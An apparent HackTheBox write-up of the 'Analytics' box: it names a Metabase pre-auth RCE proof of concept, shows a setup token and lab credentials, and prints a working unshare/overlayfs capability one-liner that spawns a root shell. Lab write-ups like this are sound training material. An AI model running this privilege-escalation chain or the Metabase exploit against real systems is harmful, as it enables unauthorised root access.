




# Analytics -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Analytics (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-10-15

---

## TL;DR

### Metabase pre-auth RCE for initial shell. Found credentials in environment. Privesc via overlay filesystem capability abuse.
---

## Target info

- Host: Analytics (HackTheBox)

---

## Enumeration



---

## Foothold

Metabase pre-auth RCE exploit:

- `https://github.com/m3m0o/metabase-pre-auth-rce-poc`



Setup token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`

---

## Lateral movement

Found credentials in environment:



- `metalytics:An4lytics_ds20223#`

SSH'd in:



---

## Privilege escalation

Overlay filesystem + capability abuse:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
```

---

## Lessons & takeaways

- Check environment variables for credentials after getting initial shell
- The `unshare` + overlay filesystem trick is a powerful Linux privesc technique
- Pre-auth RCE in Metabase (CVE-2023-38646) only needs the setup token
---
